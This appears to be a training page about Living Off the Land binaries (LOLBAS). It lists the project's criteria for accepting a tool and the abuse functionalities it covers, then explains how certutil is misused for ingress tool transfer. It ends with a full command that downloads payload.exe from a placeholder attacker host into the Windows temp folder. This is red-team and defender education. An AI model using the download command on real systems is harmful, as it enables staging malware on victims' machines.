 • Libraries

· OtherMSBinaries

**Tools Criteria**

Specific criteria are required for a tool to be a “Living Off the Land” technique and accepted as part of the LOLBAS project:

• Microsoft-signed file native to the OS or downloaded from Microsoft.

• Having additional interesting unintended functionality not covered by known use cases.

• Benefits an APT (Advanced Persistent Threat) or Red Team engagement.

Please note that if you find an exciting binary that adheres to the previously mentioned criteria, you may submit your finding by visiting the GitHub repo contribution page for more information.

**Interesting Functionalities**

The LOLBAS project accepts tool submissions that fit one of the following functionalities:

· Aribitrary code Execution

· File Operations, including downloading, Uploading, and copying files

· Compiling code

· Persistence, including hiding data in Alternate Data Streams (ADS) or executing at logon

· UAC Bypass

· Dumping process memory

· DLL injection

- - -

#### **File Operations**

This section shows commonly used tools based on functionalities and malware activities seen in the real world as well as in red team engagements.

This section will highlight some interesting “Living Off the Land” techniques that aim to be used in file operations, including download, upload, and encoding.

**Certutil**

Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. Therefore, the tool’s normal use is to retrieve certificate information. However, people found that certutil.exe could transfer and encode files unrelated to certification services. The MITRE ATT&CK framework identifies this technique as **Ingress tool transfer** (**T1105**).

To illustrate this with an example, we can use **certutil.exe** to download a file from an attacker’s web server and store it in the Windows temporary folder, using the command below. Note that we use the **-urlcache**, **-split**, and **-f** parameters to force the tool to download from the provided URL using the split technique.

Command:

> **certutil -URLcache -split -f** [http://Attacker_IP/payload.exe](http://Attacker_IP/payload.exe) **C:\Windows\Temp\payload.exe**
